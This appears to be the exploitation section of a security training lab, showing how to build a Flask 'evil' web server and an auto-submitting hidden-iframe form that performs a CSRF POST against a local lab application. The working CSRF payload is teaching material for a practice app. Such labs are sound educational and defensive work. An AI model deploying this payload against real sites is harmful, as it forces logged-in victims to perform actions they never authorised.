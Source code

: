 ## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Save the snippet above to > templates/evil.html and run the command below to start our evil application.

```
$ python app.py
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```
http://localhost:1337/
```

